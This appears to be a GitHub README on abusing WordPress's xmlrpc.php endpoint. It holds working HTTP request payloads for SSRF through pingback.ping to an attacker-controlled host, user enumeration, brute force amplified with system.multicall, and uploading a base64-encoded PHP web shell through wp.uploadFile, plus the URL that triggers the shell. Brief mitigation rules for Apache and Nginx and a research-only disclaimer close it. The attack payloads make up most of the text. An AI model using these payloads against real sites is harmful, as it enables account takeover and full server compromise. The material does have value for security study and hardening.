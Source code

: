 # XML-RPC PHP File Abuse (xmlrpc.php)

![WordPress](https://img.shields.io/badge/WordPress-Security-blue?logo=wordpress&logoColor=white)
![XML-RPC](https://img.shields.io/badge/XML--RPC-Abuse-red)
![Research](https://img.shields.io/badge/Purpose-Research%20Only-orange)
![Status](https://img.shields.io/badge/Status-Vulnerable-critical)

## 📖 Table of Contents
- [Description](#description)
- [Attack Vectors & Methodologies](#attack-vectors--methodologies)
  - [1. Server-Side Request Forgery (SSRF) via Pingback](#1-server-side-request-forgery-ssrf-via-pingback)
  - [2. User Enumeration & Information Disclosure](#2-user-enumeration--information-disclosure)
  - [3. Authentication Bypass & Bruteforce Amplification](#3-authentication-bypass--bruteforce-amplification)
  - [4. Remote Code Execution (RCE)](#4-remote-code-execution-rce)
- [Mitigation](#mitigation)
- [Conclusion](#conclusion)
- [Disclaimer](#disclaimer)

---

## Description

This repository documents the security implications of having the xmlrpc.php file enabled on a WordPress site. XML-RPC is a legacy protocol that allows for remote procedure calls via XML. While it has legitimate uses (e.g., the WordPress mobile app), its presence opens up several high-impact attack vectors if not properly secured or disabled.

The xmlrpc.php endpoint is often enabled by default and can be exploited to perform attacks ranging from information disclosure to full Remote Code Execution (RCE).

---

## Attack Vectors & Methodologies

### 1. Server-Side Request Forgery (SSRF) via Pingback

The `pingback.ping` method is intended to notify a site when it is linked to. This functionality can be abused to force the server to make HTTP requests to arbitrary internal or external targets, leading to SSRF.

**Proof of Concept (PoC):**
```http
POST /xmlrpc.php HTTP/1.1 
Host: vulnerable-site.com 
Content-Type: application/x-www-form-urlencoded 

<methodCall>
<methodName>pingback.ping</methodName>
<params>
    <param><value><string>http://attacker-controlled.com</string></value></param>
    <param><value><string>https://vulnerable-site.com/?p=1</string></value></param>
</params>
</methodCall>
```

### Impact:

1. Blind SSRF: The server will make a request to the URL supplied in the first parameter.

2. Internal Network Reconnaissance: Can be used to scan internal networks (192.168.1.1, 10.0.0.1) or access cloud metadata services (http://169.254.169.254/).

3. Potential Critical Impact: If the internal infrastructure is vulnerable, this can lead to further compromise.

---

### 2. User Enumeration & Information Disclosure

The wp.getUsers method can sometimes be used to retrieve a list of users, including administrators, without authentication.

**Proof of Concept (PoC):**
```http
POST /xmlrpc.php HTTP/1.1
Host: vulnerable-site.com
Content-Type: application/x-www-form-urlencoded

<methodCall>
<methodName>wp.getUsers</methodName>
<params>
    <param><value><int>1</int></value></param>
    <param><value><string>invalid_username</string></value></param>
    <param><value><string>invalid_password</string></value></param>
</params>
</methodCall>
```

**Impact:**

1. Information Disclosure: Exposes usernames, user IDs, and roles. This is crucial intelligence for further attacks like password bruteforcing.

2. Attack Chaining: Provides a target list for efficient credential attacks.

---

### 3. Authentication Bypass & Bruteforce Amplification

The system.multicall method allows an attacker to bundle multiple authentication attempts into a single HTTP request, effectively bypassing standard login rate-limiting protections.

Proof of Concept (PoC):
```http
POST /xmlrpc.php HTTP/1.1
Host: vulnerable-site.com
Content-Type: application/x-www-form-urlencoded

<methodCall>
<methodName>system.multicall</methodName>
<params>
<param>
<value>
<array>
<data>
  <value><struct>
  <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
  <member><name>params</name><value><array><data>
    <value><string>admin</string></value>
    <value><string>password123</string></value>
  </data></array></value></member>
  </struct></value>
  <!-- Repeat this block for thousands of passwords in one request -->
</data>
</array>
</value>
</param>
</params>
</methodCall>
```
**Impact:**

1. Efficient Bruteforce: Thousands of password guesses can be sent in a few requests.

2. Account Takeover: High probability of compromising user accounts, especially those with weak passwords.

3. Privilege Escalation: Compromising an administrator account is a direct path to RCE.

---

### 4. Remote Code Execution (RCE)

If valid administrator credentials are obtained (e.g., via bruteforce), the wp.uploadFile method can be used to upload a malicious PHP shell, leading to full server compromise.

**Proof of Concept (PoC):**

**Craft a base64-encoded PHP shell:**

```php
<?php system($_GET['cmd']); ?>
```
**Use the wp.uploadFile method:**
```http
POST /xmlrpc.php HTTP/1.1
Host: vulnerable-site.com
Content-Type: application/x-www-form-urlencoded

<methodCall>
<methodName>wp.uploadFile</methodName>
<params>
    <param><value><int>1</int></value></param>
    <param><value><string>admin</string></value></param>
    <param><value><string>compromised_password</string></value></param>
    <param><value><struct>
      <member><name>name</name><value><string>shell.php</string></value></member>
      <member><name>type</name><value><string>application/x-php</string></value></member>
      <member><name>bits</name><value><base64>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+</base64></value></member>
      <member><name>overwrite</name><value><boolean>1</boolean></value></member>
    </struct></value></param>
</params>
</methodCall>
```
**Access the shell:**
https://vulnerable-site.com/wp-content/uploads/2024/09/shell.php?cmd=id

**Impact:**

1. Critical - Remote Code Execution: Full control over the web server.

2. Data Breach: Ability to exfiltrate sensitive data, including database credentials.

3. Server Compromise: Can be used as a pivot point to attack other internal systems.

---

### Mitigation

Disable XML-RPC Completely (Recommended): The most effective mitigation is to disable XML-RPC if you do not use it.

**Via .htaccess (Apache):**
```apache
# Block XML-RPC
<Files "xmlrpc.php">
Order Deny,Allow
Deny from all
</Files>
```
**Via nginx.conf (Nginx):**
```nginx
location ~* /xmlrpc.php$ {
    deny all;
    return 403;
}
```
---
### Conclusion

The xmlrpc.php file is a significant security liability. Its functionality, while legitimate, provides attackers with a powerful toolkit to escalate from simple reconnaissance to full system compromise. It is strongly recommended to disable this endpoint unless it is absolutely essential for your site's operation. Regular security assessments and monitoring of authentication logs are also crucial for early detection of abuse.

---

### Disclaimer

This information is for educational and security research purposes only. It is intended to help developers and security professionals secure their systems. Do not test any website without explicit permission. Unauthorized testing is illegal and unethical.

---
